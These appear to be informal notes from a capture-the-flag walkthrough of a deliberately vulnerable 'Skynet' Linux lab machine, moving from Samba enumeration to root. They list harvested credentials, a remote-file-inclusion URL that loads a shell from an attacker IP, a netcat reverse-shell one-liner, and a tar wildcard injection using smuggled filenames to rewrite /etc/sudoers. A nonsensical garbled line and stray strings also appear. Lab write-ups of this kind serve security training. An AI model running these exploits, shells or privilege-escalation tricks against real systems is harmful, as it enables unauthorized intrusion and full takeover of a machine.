 Skynet
  
A vulnerable Terminator themed Linux machine.

on css -- nothing important
background: url('data:image/gif;base64,R0lGODlhHAAmAKIHAKqqqsvLy0hISObm5vf394uLiwAAAP///yH5BAEAAAcALAAAAAAcACYAAAO9eLpMIMYIQJi9DcYtKv6KtnHgB4yoAZSXKAyDy1rjoAzjzOQLrx8+4OanCAZnxiExGSEKmz3lj2lwUq3SZ3WZPbKuXGgxu9t4tLYDTkpIRQILF0x2G4lWipM7gj/oJQUkcXsCDCIFATULBCIcZ2tvB3QLDxETFnR/BgU/gRt9jX0gnpYMkJZpFzEoqQqJKAIBaQOVKHAXr3t7txgBjboSvB8EpLoFZywOAo3LFE5lYs/QW9LT1TRk1V7S2xYJADs');

milesdyson is username
cyborg007haloterminator pass, 
got from samba
using smbmap
emails have a password. tried squirellmail vulns to no sucess. 
in samba we have important.txt that hides hidden directory 

balls have zero to me to me to me to me to me to me to me to me to

)s{A&2Z=F^n_E.B`

 smbclient \\\\10.10.189.118\\milesdyson -U milesdyson

vuln for cuppa
 10.10.189.118/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.2.66:9002/shell.php




 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.2.66 4200 >/tmp/f" > shell.sh touch "/var/www/html--checkpoint-action=exec=sh shell.sh" touch "/var/www/html/--checkpoint=1"


I moved to /var/www/html (which is the directory being tar'd) and ran the following.

echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1
After short while I ran "sudo -l" with the following results.

User www-data may run the following commands on skynet:
    (root) NOPASSWD: ALL
I am now able to run "sudo cat /root/root.txt" :)